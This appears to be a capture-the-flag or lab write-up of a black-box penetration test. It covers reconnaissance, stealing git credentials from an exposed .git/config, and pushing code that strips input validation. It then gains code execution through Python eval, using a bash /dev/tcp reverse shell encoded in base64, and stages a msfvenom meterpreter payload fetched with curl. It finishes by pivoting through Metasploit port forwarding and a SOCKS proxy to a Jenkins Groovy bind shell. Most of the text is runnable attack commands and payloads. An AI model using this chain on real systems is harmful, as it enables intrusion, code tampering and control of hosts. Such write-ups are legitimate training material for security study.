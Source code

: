 # BLACK BOX TESTING 2

## GIVEN   
**MY IP ADDRESS**: 192.32.59.2

## PROCEDURE

### RECON

```
nmap -A --script vuln -p- 192.32.59.2
```

**OPEN PORTS**:<br>
80 http (Apache 2.4.29 Web Server),<br>
5000 http,<br>
8000 http (Python 2.7.17 Web Server)<br>

Port 80 is the default apache page<br>
Port 5000 is a calc webapp<br>
Port 8000 is hosting a git repo<br>

**FILE OF INTEREST**: http://online-calc.com:8000/.git/config

### GIT CREDENTIALS

```
curl http://online-calc.com:8000/.git/config
```

name = Jeremy McCarthy<br>
email = jeremy@dummycorp.com<br>
**password** = diamonds<br>
**username** = jeremy<br>

**GIT UR**L: http://online-calc.com/projects/online-calc

### DISABLE INPUT VALIDATION
```
git clone http://online-calc.com/projects/online-calc
```

Comment out code in API.py:
```
# if not isValid(expr):
#	return error("Invalid expression!")
```

Push changes to git repo
```
git add -A
git commit -m "updated"
git push origin
```

Check if webapp is updated
```
curl http://online-calc.com:8000/API.py
```

### RCE REVERSE SHELL

Calc input is run through python eval function

Reverse shell bash script
```
bash -c 'bash -i >& /dev/tcp/192.32.59.2/1234 0>&1'
```

Reverse shell embedded in python code
```
__import__('os').system("bash -c 'bash -i >& /dev/tcp/192.32.59.2/1234 0>&1'")
```

Encode reverse shell
```
echo "bash -c 'bash -i >& /dev/tcp/192.32.59.2/1234 0>&1'" | base64
```

**ENCODED SCRIPT**:YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMzIuNTkuMi8xMjM0IDA+JjEnCg==

Final python script
```
__import__('os').system("echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMzIuNTkuMi8xMjM0IDA+JjEnCg== | base64 -d | bash")
nmap -A --script vuln -p- 1
```
/tmp/flag

**FLAG**: 3b2b474c06380f696b38c1498f795e054374

```
ip addr
```
Host connected to another network that we can pivot to:<br>
eth0: 192.32.59.3/24 (Current Network)<br>
**eth1**:192.244.194.2/24 (Unreachable Network)

### METERPRETER

Create payload & start server
```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.32.59.2 LPORT=4444 -f elf > PAYLOAD
python3 -m http.server 80

Download payload on target machine
```
curl http://192.32.59.2/PAYLOAD > PAYLOAD
```

Set up payload handler in metasploit
```
msfconsole
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter/reverse_tcp
set LHOST 192.32.59.2
set LPORT 4444
exploit

Execute payload
```
chmod +x PAYLOAD
./PAYLOAD
```

### PIVOT

Run port scan on other network
```
run autoroute -s 192.244.194.0/24
background
use auxiliary/scanner/portscan/tcp 
set RHOSTS 192.244.194.0/24
run
```

**IP (OPEN PORT)**: 192.244.19.3 (8080)

Configure port forwarding and run nmap
```
sessions -i 1
portfwd add -l 5555 -p 8080 -r 192.244.194.3
background
nmap -sV -sC -p5555 localhost
```

SERVICE: http (Jetty 9.4.27)

Start proxy server to access website
```
use auxiliary/server/socks_proxy
set SRVPORT 9050 #Default port for proxychains
set VERSION 4a
run
proxychains nmap -sT -P0 192.244.194.3 #Proxies don't support ping so have to use -P0
```

Configure proxy for browser:<br>
- Manual proxy config
- SOCKS Host: 127.0.0.1
- Port: 9050
- Socks v4

Website running Jenkins (automation server)

### GETTING SHELL ACCESS

Execute groovy bind script in the Script Console:
```
int port=6666;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start()
Socket s = new java.net.ServerSocket(port).accept()
InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Connect to the server
```
nc -v 192.244.194.3 6666
```

